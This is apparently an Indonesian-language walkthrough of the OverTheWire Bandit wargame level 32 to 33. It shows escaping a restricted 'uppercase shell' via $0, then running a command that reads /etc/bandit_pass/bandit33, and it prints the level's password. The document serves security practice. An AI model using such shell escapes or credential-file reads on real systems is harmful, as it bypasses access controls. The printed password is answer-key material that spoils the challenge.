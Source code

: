 After all this git stuff its time for another escape. Good luck!

# Commands you may need to solve this level
sh, man

# Solusi
Setelah login dengan ***bandit32*** didapatkan tampilan 
```
WELCOME TO THE UPPERCASE SHELL
>> id
sh: 1: ID: not found
>> sh
sh: 1: SH: not found
```
saya lakukan apapun tidak bisa :(\
lalu melihat pada literatur di internet bahwa untuk escape dari itu kita bisa menggunakan ***$0***  yang mana itu merupakan bash special parameters. [$0 ketika dijabarkan menjadi nama dari sebuah shell atau shell script](https://bash.cyberciti.biz/guide/$0) jadi kita bisa escape dari tampilan UPPERCASE SHELL tadi.\
default dari ***$0*** apabila kita tidak set maka itu menujuk ke shell.
```
$ echo $0
sh
```
langsung saja kita cetak password ***bandit33***
```
$ cat /etc/bandit_pass/bandit33
c9c3199ddf4121b10cf581a98d51caee
```
<details>
<summary>Password</summary>
c9c3199ddf4121b10cf581a98d51caee
</details>